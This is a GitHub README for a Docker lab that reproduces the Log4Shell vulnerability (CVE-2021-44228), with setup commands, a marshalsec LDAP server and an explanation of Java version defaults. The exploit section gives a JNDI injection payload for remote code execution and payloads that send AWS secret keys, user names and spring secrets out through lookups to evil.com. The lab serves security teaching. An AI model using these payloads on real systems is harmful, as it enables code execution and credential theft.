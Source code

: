 # Log4Shell docker lab for CVE-2021-44228

## The components
TODO

## Docker lab setup
### 1. Docker network
```bash
docker network create log4shell
```

### 2. Building the Docker images
```bash
$ docker build -t log4shell-vulnapp vulnapp
$ docker build -t log4shell-httpserver httpserver
$ docker build -t log4shell-marshalsec marshalsec
```

### 3. Running the containers
**Important note:** If you are using Windows PowerShell, replace `$(pwd)` with `${pwd}`.

```bash
$ docker run -d --name log4shell-vulnapp --network="log4shell" -p 8080:8080 log4shell-vulnapp
$ docker run -d --name log4shell-httpserver --network="log4shell" -p 3223:3223 -v $(pwd)/httpserver:/httpserver log4shell-httpserver
$ docker run -d --name log4shell-marshalsec --network="log4shell" -p 1389:1389 log4shell-marshalsec "http://<HostIp>:<Port>/#<RCEObjectName>"
```

### 4. Exploit
Open up the vulnerable application, input some false test credentials, and open up the
logs of the **log4shell-vulnapp** container.
It can be seen that the application is logging unsuccessful login attempts (e.g., *Incorrect login attempt for username 'test'*). From this small experiment, it is established that we have control over some part of the logged string (i.e., the username).

We can pass a payload like the following to remotely execute code:
```bash
${jndi:ldap://<HostIp>:1389/<RCEObjectName>}
```
Remote code execution can be done in any java version; however, machines with java versions older than the following list:
- 6u211
- 7u201
- 8u191
- 11.0.1

This is due to the fact that later versions set the JVM system property `com.sun.jndi.ldap.object.trustURLCodebase` to `false` by default, which disables JNDI loading of classes from arbitrary URL code bases. **However, relying only on a new Java version as protection against this vulnerability is risky**, as the vulnerability may still be exploited on machines that contain certain "gadget" classes in the classpath of the vulnerable application and DNS queries can be used to obtain information such as environment variables.

There are several lookup substitutions that reveal sensitive information from the victim machine. Most prominently, using a payload similar to:
```bash
${jndi:ldap://${env:AWS_SECRET_ACCESS_KEY}.evil.com/foo}
${jndi:ldap://${sys:user.name}.evil.com/foo}
${jndi:ldap://${main:x}.evil.com/foo}
${jndi:ldap://${spring:supersecretkey}.evil.com/foo}
```
**Note:** The spring lookup attack string requires `log4j-spring-cloud-config-client` be included in the application.

### Reference:
- https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/
- https://logging.apache.org/log4j/2.x/manual/lookups.html
- https://docs.oracle.com/javase/tutorial/essential/environment/sysprop.html

### TODO
- [ ] Write about the mitigations without upgrading